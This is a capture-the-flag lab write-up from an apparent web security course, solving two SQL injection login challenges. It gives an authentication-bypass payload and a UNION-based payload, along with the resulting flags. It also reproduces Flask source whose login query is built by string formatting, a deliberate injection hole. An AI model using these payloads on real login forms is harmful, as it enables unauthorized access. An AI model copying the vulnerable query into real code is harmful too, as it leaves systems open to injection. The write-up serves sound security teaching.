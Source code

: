 ```yaml
---
title: Simple Web 0x03(Lab - Log me in + Revenge)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/SQL Injection"
---
```


# Simple Web 0x03(Lab - Log me in + Revenge)
<!-- more -->
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8200/
Challenge: http://h4ck3r.quest:8201/

## Exploit - `SQLi`
* Payload → `') or ('1'='1') -- #`
SELECT * FROM admin WHERE (username='') or ('1'='1') -- #') AND (password='MTIz')

Flag: `FLAG{b4by_sql_inj3cti0n}`

## Revenge source code
:::spoiler code
```python!=
from flask import Flask, render_template, redirect, request, g, Response
import sqlite3

app = Flask(__name__)


def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect('/tmp/database.db')
        db.row_factory = sqlite3.Row
    return db


@app.before_first_request
def init_db():
    cursor = get_db().cursor()
    cursor.execute("""
    CREATE TABLE IF NOT EXISTS "admin" (
        "username"  TEXT NOT NULL,
        "password"  TEXT NOT NULL
    )
    """)
    cursor.execute("SELECT COUNT(*) as count FROM admin WHERE username='admin'")
    count = cursor.fetchone()['count']
    if count == 0:
        import secrets
        cursor.execute("INSERT INTO admin (username, password) VALUES (?,?)",
                       ('admin', secrets.token_urlsafe()))
    get_db().commit()


@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()


@app.route("/")
def home():
    return render_template("index.html",
                           failed=request.args.get('failed') != None)


@app.route("/login", methods=['POST'])
def login():
    username = request.form.get('username')
    password = request.form.get('password')

    if not username or not password:
        return redirect("/?failed")

    cur = get_db().execute(f"SELECT * FROM admin WHERE (username='{username}')")
    res = cur.fetchone()
    cur.close()

    if res['username'] == 'admin' and res['password'] == password:
        return "FLAG: FLAG{<REDACTED>}"

    return redirect("/?failed")



@app.route("/source")
def source():
    import re
    source_code = open(__file__).read()
    source_code = re.sub(r'FLAG{[^}\s]+}', 'FLAG{<REDACTED>}', source_code, 1)
    return Response(source_code, mimetype='text/plain')


if __name__ == '__main__':
    app.run(debug=True)

```
:::

## Exploit - `SQLi` + union syntax
1. Observe source code first
It must receive username and password together, or failed otherwise. Thus, we can not use previous payload.
2. Union syntax
Username Payload → `') union select 'admin', 'password' -- #`
Password → `password`
<font color="FF000">SELECT * FROM admin WHERE (username='') union select 'admin', 'password' -- #')</font>

Flag: `FLAG: FLAG{un10n_bas3d_sqli}`


